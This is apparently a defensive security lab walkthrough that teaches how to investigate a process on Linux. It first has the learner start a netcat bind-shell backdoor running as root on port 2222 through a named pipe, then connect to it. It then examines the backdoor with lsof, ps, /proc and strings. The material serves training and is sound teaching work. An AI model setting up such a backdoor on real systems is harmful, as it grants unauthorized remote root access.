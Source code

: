 
# Linux CLI

In this lab we will be looking at a backdoor through the lense of the the Linux CLI.

We will be using a large number of different basic commands to get a better understanding of what the backdoor is and what it does.

For this lab we will be running three different Ubuntu terminals.

The first will be where we run the backdoor.

The second will be where we connect to it.

The third is where we will be running our analysis.

Let’s get started by opening a Terminal as Administrator


![](attachments/Clipboard_2020-06-12-10-36-44.png)

When you get the User Account Control Prompt, select Yes.

And, open a Ubuntu command prompt:

![](attachments/Clipboard_2020-06-17-08-32-51.png)

On your Linux terminal, please run the following command:

<pre>sudo su -</pre>

The password is adhd.


This will get us to a root prompt. We want to do this because we want to have a backdoor running as root and a connection from a different user account on the system.

We will next need to create a fifo backpipe:

<pre>mknod backpipe p</pre>

Next, let's start the backdoor:

<pre>/bin/bash  0<backpipe | nc -l 2222 1>backpipe</pre>

In the above command we are creating a netcat listener that forwards all input through a backpipe and then into a bash session.  It then takes the output of the bash session and puts it back into the netcat listener. 

Basicly, this will create a backdoor listening on port 2222 of our linux system.

Now, let's open another Ubuntu terminal.  This will be the terminal we connect to the above created backdoor with.

![](attachments/Clipboard_2020-06-17-08-32-51.png)

Now we will need to know the IP address of our linux system:

<pre>ifconfig</pre>

![](attachments/Clipboard_2020-12-11-07-18-27.png)

Now, let's connect:

<pre> nc 172.30.249.49 2222</pre>

Remember!!!  Your IP address will be different!!!!

Now, let's type some commands and make sure it is working

<pre>ls</pre>
<pre>whoami</pre>

![](attachments/Clipboard_2020-12-11-07-19-48.png)

As you can see, we are connected to the simple Linux backdoor as root.  Also notice there was not message saying we succesfully connected to the backdoor.  It just drops our curser back to the left side of the screen.

Now, let's open yet another Ubuntu terminal and start our analysis. This means we have one where we created the backdoor, another that connected to it and this third one will be for the analysis.

![](attachments/Clipboard_2020-06-17-08-32-51.png)

On your Linux terminal, please run the following command:

<pre>sudo su -</pre>

This will get us to a root prompt.   We want to be root because looking at network connections and process information systemwide requires root access.  Basicly, it is very hard to do your job as a SOC pro without root or admin rights.

Let's start by looking at the network connections with lsof.  When we use lsof, we are looking at open files.  When we use the -i flag we are looking at the open Internet connections.  When we use the -P flag we are telling lsof to not try and guess what the service is on the ports that are being used. Just give us the port number.

<pre>lsof -i -P</pre>


![](attachments/Clipboard_2020-12-11-07-23-35.png)

Now let's dig into the netcat process ID.  We can do this with the lowercase p switch.  This will give us all the open files associated with the listed process ID.

<pre>lsof -p 131</pre>

![](attachments/Clipboard_2020-12-11-07-24-11.png)

Let's look at the full processes.  We can do this with the ps command. We are also adding the aux switches.  This is a for all processes,  u for sorted by user and x to include the processes using a teletype terminal.

<pre>ps aux</pre>

![](attachments/Clipboard_2020-12-11-07-24-39.png)

Let's change directories into the proc directory for that pid.  Remember, proc is a directory that does not exist on the drive.  It allows us to see data associated with the various processes directly.   This can be very usesfull as it allows us to dig into the memory of a process that is currently running on a suspect system.

<pre>cd /proc/[pid]</pre>

![](attachments/Clipboard_2020-12-11-07-25-14.png)

We can see a number of interesting directories here:

<pre>ls</pre>

![](attachments/Clipboard_2020-12-11-07-28-21.png)

Remember!!!  Your PID will be different!!!

We can run strings on the exe in this directory.  This is very, very useful as when programs are created there may be usage information, mentions of system libraries and possible code comments.  We use this all the time to attempt to identify what exactly a program is doing.

<pre>strings ./exe</pre>

![](attachments/Clipboard_2020-12-11-07-25-54.png)

If we scroll down, we can see the actual usage information for netcat.  We pulled it direcly out of memory!

![](attachments/Clipboard_2020-12-11-07-27-29.png)

















